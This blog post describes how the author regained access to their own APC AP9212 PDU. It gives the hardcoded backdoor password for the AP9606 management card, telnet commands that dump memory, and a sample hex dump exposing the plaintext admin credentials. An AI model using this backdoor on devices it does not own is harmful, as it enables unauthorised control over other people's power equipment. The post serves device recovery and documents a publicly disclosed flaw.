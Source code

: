 ```yaml
---
layout: post
title: Hacking your way into an APC PDU
---
```


So I recently bought an APC AP9212 switched pdu for my homelab. Together with the AP9606 management card you are able to remotely switch outlets on and off. It had a really great price and fits perfectly as it has shiny blinkenlights at the front for monitoring and all the outlets at the back, so most of the cables can be hidden....

I however had a huge problem. I didn't know the device's ip address, nor the password. Normally you would have to get a special serial cable to reset the device. (the reset button only reboots the device and initiates the reset process, which then has to be finished over serial) Of course I don't have such special serial cable... so I searched for a different way...

I got the ip address by connecting the pdu via LAN to my Laptop and then scanning the ethernet interface with Wireshark. Every few minutes/seconds the pdu scans the network and thereby reveals it's IP...

And then I found [this](https://www.securityfocus.com/archive/1/354230/30/0/threaded), a discussion about a backdoor on said management card! The guide was pretty simple:

1. connect via Telnet

2. login with any username and this password: `TENmanUFactOryPOWER`

3. 13 + Enter

4. 1d0 + Enter

5. this reads out the username and password (which is stored in plain text). In this example the username is "admin" and password "BBCCDDEEF". It should look something like this:

```
01D0 FF 50 46 61 70 63 00 FF .PFapc..
01D8 FF FF FF FF FF FF 42 42 ......BB
01E0 43 43 44 44 45 45 46 00 CCDDEEF.
01E8 FF 64 65 76 69 63 65 00 .device.
01F0 FF FF FF FF 41 41 41 41 ....AAAA
01F8 42 42 42 42 42 00 FF 61 BBBBB..a
0200 64 6D 69 6E 20 75 73 65 dmin use
0208 72 20 70 68 72 61 73 65 r phrase
0210 00 FF FF FF FF FF FF FF ........
0218 FF FF FF FF FF FF FF FF ........
0220 64 65 76 69 63 65 20 75 device u
0228 73 65 72 20 70 68 72 61 ser phra
0230 73 65 00 FF FF FF FF FF se......
0238 FF FF FF FF FF FF FF FF ........
0240 FF 00 00 FF FF FF FF 21 .......!
0248 56 00 00 00 00 00 00 55 V......U
```

6. Ctrl+A to exit

7. Login to it again via telnet/http with the username and password you just got and change the parameters you want to change.


**Voila!** I hope this can help you as well...
